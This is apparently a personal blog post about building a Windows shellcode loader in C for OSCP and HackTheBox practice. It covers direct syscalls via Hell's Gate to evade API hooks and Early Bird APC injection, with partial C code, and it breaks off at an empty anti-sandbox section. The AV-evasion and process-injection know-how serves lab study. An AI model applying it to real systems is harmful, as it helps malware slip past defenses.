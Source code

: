```yaml
---
title: Windows Shellcode Loader in C
description: Writing a loader for use in OSCP using lessons learned from MalDev Academy
date: 2023-10-20 02:45:01-0700
categories:
    - Malware
tags:
    - malware
    - windows
image: img/cover.png
weight: 1
---
```


## Opening Thoughts

Over the past couple months I have gone through the Zero2Automated malware RE course, and the Malware Development course from MalDev Academy.
The malware RE course is pretty easy to practice as there are plenty of samples and challenges online to reverse, but finding a challenge for malware development is a bit trickier.
Fortunately, I ran into some problems while studying for the OSCP exam and doing HackTheBox.
Many of the boxes running Windows 10 were able to detect `msfvenom`, mimikatz, and other malicous powershell scripts which made it very difficult to get a reverse shell on what should have been very simple boxes.
The OSCP teaches to use `Shellter`, but even this tool was failing to bypass Defender.
At this point I figured it'd be a good investment to build my own loader so that I wouldn't ever have to worry about this issue again.
I had actually done this project once in C++, but hindsight is 20/20 and I arrived at the conclusion that writing it in C is the best option.
My reasoning is that a loader isn't super complicated, so the organization and object oriented approach that C++ offers doesn't really offer any benefit.
And the added overhead from C++ just makes the final executable larger.
Since I'll be working on boxes where the network bandwidth isn't great, a small and portable executable is better.

## Design

I was talking to this one person who's been developing game cheats for over 10 years and he told me that all you really need is memory injection and streaming relocations.
Streaming relocations is a bit overkill for this project, so I'll skip that but the injection is definitely optimal.
In the first version I had used APC injection, and ran into issues with my shell dying once the original process terminated.
I'm sure I could fix it, but since this is supposed to be an improvement over my `1.0` loader I want to go with remote APC injection, aka Early Bird APC injection.
I will also need a quick and easy way of hashing strings, and encrypting my `msfvenom` payloads.
For these requirments I'll just use the same code snippets as taught in the MalDev course since crypto isn't one of my strengths.

## Hell's Gate

Window's syscall's are the API's that carry out the actions when a WinAPI is called.
The example given in the course is that `VirtualAlloc` and `VirtualAllocEx` use the `NtAllocateVirtualMemory` to carry out their actions.
All the syscalls return an `NTSTATUS` value that indicates an error code.
We can use the following docs since most syscalls aren't documented by Microsoft:

- [Undocumented NTInternals](https://web.archive.org/web/20230401045934/http://undocumented.ntinternals.net/)
- [ReactOS's NTDLL Reference](https://doxygen.reactos.org/dir_a7ad942ac829d916497d820c4a26c555.html)

The main advantage to using syscalls is that we can evade hooked WinAPI.
Syscalls will have the following structure:

```asm
mov r10, rcx
mov eax, SSN
syscall
```

SSN referes to the syscall service number that the kernel uses to distinguish one syscall from another.
It's important to note that these values will differ for the same syscall across different OS and OS versions.

Hell's Gate is a technique that can read through `ntdll.dll` to find and execute syscalls.
It's a pretty complex technique that I won't go over here since that isn't the purpose of this post.
But you can read about it [here](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf).
We can follow the guidance in that paper to get the technique working.
Long story short, we will add a `VX_TABLE_ENTRY` to our `VX_TABLE` for every syscall we want to use:

```c
typedef struct _VX_TABLE_ENTRY {
    PVOID pAddress;
    DWORD dwHash;
    WORD  wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
    VX_TABLE_ENTRY NtCreateUserProcess;
    VX_TABLE_ENTRY <some_syscall>;
}
```
This table will be populated via the `GetVxTableEntry(...)` function given in the paper.

Then `HellsGate` function just loads up the correct SSN to be called, and then `HellDescent` actually makes the call:

```c
HellsGate(g_Sys.NtSyscallEntry.wSystemCall);
HellDescent(arg1, arg2, arg3, ...);
```

## Early Bird APC Injection

[Asynchronous Procedure Calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) (APC's) are functions that execute async in the context of a specific thread.
We can queue an APC to a thread, and the next time the thread is scheduled, it will run the APC function.
In order to run an APC generated by an application, the thread we use must be in an alertable state, which just means that it is in a "wait" state.
The early bird part of this technique just refers to a remote process instead of the local one.
So we would do the following:

1. Spawn process in suspended state.
2. Write payload to address space of suspended process.
3. Get a handle to the suspended thread.
4. Pass in address of payload new address, and handle to `QueueUserAPC`.
5. Resume thread and wait for payload to run.

Something interesting to note is that normally you'd spawn the process like this:

```c
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);

CreateProcessA(
    NULL, 
    lpPath,
    NULL,
    NULL,
    FALSE,
    DEBUG_PROCESS // dwCreationFlags,
    NULL,
    NULL,
    &StartupInfo,
    &ProcInfo)
```

However I am using the syscall `NtCreateUserProcess`, so I need to use a slightly different calling convention.

```c
#define THREAD_CREATE_FLAGS_CREATE_SUSPENDED 0x00000001 // NtCreateUserProcess & NtCreateThreadEx

HellsGate(g_Sys.NtCreateUserProcess.wSystemCall);
HellDescent(
    hProcess,
    hThread,
    PROCESS_ALL_ACCESS,
    NULL,
    NULL,
    NULL,
    THREAD_CREATE_FLAGS_CREATE_SUSPENDED,
    UppProcessParameters,
    &psCreateInfo,
    pAttributeList
);
```
To learn more about how `NtCreateUserProcess` works I recommend this [blog](https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html).

Now we just write our payload into the memory space of this process.
For this, we need to update our syscall table structure with 3 more syscalls:

```c
typedef NTSTATUS(NTAPI* fnNtAllocateVirtualMemory)(
    HANDLE      ProcessHandle,
    PVOID*      BaseAddress,
    ULONG_PTR   ZeroBits,
    PSIZE_T     RegionSize,
    ULONG       AllocationType,
    ULONG       Protect,
);
typedef NTSTATUS(NTAPI* fnNtProtectVirtualMemory)(
    HANDLE  ProcessHandle,
    PVOID*  BaseAddress,
    PULONG  NumberOfBytesToProtect,
    ULONG   NewAccessProtection,
    PULONG  OldAccesProtection
);
typedef NTSTATUS(NTAPI* fnNtWriteVirtualMemory)(
    HANDLE  ProcessHandle,
    PVOID   BaseAddress,
    PVOID   Buffer,
    ULONG   NumberOfBytesToWrite,
    PULONG  NumberOfBytesWritten
);

```

## Anti-Sandbox


